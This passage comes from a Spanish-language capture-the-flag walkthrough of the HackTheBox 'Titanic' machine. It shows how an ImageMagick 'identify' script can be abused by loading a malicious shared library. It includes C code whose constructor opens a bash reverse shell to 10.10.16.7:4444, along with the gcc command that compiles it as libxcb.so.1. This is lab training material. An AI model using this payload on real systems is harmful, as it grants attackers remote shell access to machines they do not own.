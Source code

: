 Exploramos el directorio ``/opt/``, donde encontramos tres subdirectorios: app, containerd y scripts. Dentro de ``/opt/scripts/``, descubrimos un script interesante llamado **identify_images.sh**
El contenido del script identify_images.sh revelaba que:
- Cambiaba el directorio de trabajo a /opt/app/static/assets/images/.
- Vaciaba el contenido del archivo metadata.log con truncate -s 0 metadata.log.
- Encontraba todos los archivos .jpg en ese directorio.
- Procesaba esas imágenes usando el comando identify de ImageMagick y almacenaba la salida en metadata.log.
<p align="center">
  <img src="https://github.com/ElChe1/Exploitation-Lab/blob/main/HackTheBox/Easy/Titanic/media/img/cat.png" alt="cat" style="border-radius: 10px;">
</p>

<br>

Este comportamiento automático indicaba que cualquier archivo **.jpg** subido en esa ruta sería procesado automáticamente mediante identify. Investigando vulnerabilidades conocidas en **ImageMagick**, descubrimos que ciertas versiones de la herramienta son vulnerables a la ejecución de código arbitrario mediante la carga maliciosa de bibliotecas compartidas. <a href="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8">Arbitrary Code Execution in `AppImage` version `ImageMagick`</a>
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/4444 0>&1'");
    exit(0);
}
```
<p align="center">
  <img src="https://github.com/ElChe1/Exploitation-Lab/blob/main/HackTheBox/Easy/Titanic/media/img/exploit.png" alt="exploit" style="border-radius: 10px;">
</p>

<br>

Explicación del codigo:
- **Lenguaje:** Código en C destinado a compilarse como una biblioteca compartida (.so).
- **Constructor:** La función init() usa __attribute__((constructor)), lo que provoca que se ejecute automáticamente al cargar la librería.
- **Acción principal:** Dentro de init(), se ejecuta system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/4444 0>&1'"); para lanzar una reverse shell.
- **Reverse Shell:** Establece una conexión interactiva hacia la máquina atacante 10.10.16.7 en el puerto 4444.
- **Terminación:** Después de ejecutar la shell, el programa llama a exit(0); para finalizar limpiamente.

Para aprovechar está vulnerabilidad, creamos una biblioteca compartida maliciosa **libxcb.so.1** compilándola de la siguiente manera:
``` bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 exploit.c
```
<p align="center">
  <img src="https://github.com/ElChe1/Exploitation-Lab/blob/main/HackTheBox/Easy/Titanic/media/img/gcc.png" alt="gcc" style="border-radius: 10px;">
</p>
